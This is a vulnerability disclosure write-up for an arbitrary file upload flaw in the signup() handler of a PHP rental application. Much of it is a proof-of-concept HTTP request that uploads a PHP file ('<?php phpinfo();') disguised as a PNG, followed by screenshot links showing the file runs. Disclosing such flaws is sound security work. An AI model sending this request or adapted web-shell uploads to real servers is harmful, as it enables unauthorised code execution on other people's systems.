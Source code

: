 #### There is an arbitrary file upload vulnerability in the signup() function of the file rental/admin_class.php.

**Code analysis**

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910222231568.png)

Once `$_FILES['img']['tmp_name']` exists, the upload will proceed. It will first upload as a temporary file, and then use the function `move_uploaded_file` to move the temporary file to the `assets/uploads/` directory. There is no filtering on file extensions and content, and the file name is a timestamp that can be brute-forced based on the time range.

**Vulnerability reproduction**

poc

```http
POST /ajax.php?action=signup HTTP/1.1
Host: localhost:1110
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:1110/index.php?page=payment_report
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: multipart/form-data; boundary=---------------------------303633564229447810934000106849
Content-Length: 712

-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="firstname"

testa
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="lastname"

111a
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="password"

testa
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="email"

test@qq.coma
-----------------------------303633564229447810934000106849
Content-Disposition: form-data; name="img"; filename="1.php" 
Content-Type: image/png  

<?php phpinfo();
-----------------------------303633564229447810934000106849--
```

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910222734083.png)

After the project is issued, return to the directory and see the upload successful.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910222642918.png)

Access the file path to resolve.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910222828662.png)

